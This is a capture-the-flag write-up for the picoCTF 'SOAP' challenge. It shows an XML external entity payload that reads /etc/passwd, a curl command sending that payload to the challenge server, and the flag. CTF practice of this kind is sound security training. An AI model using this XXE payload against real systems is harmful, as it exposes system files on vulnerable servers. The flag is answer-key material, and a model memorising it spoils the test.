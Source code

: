# SOAP

## Challenge

### Description

The web project was rushed and no security assessment was done.

Can you read the /etc/passwd file?

### Hints

1. XML external entity Injection

## Solution

Whenever we click on a button this website send a POST request with payload `<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>`. We can do an XXE attacks by sending a request with payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

```console
$ curl 'http://saturn.picoctf.net:63621/data' -X POST -H 'Content-Type: application/xml' --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE html [ <!ENTITY xxe SYSTEM "file://etc/passwd"> ]><data><ID>&xxe;</ID></data>'
```

## Flag

picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
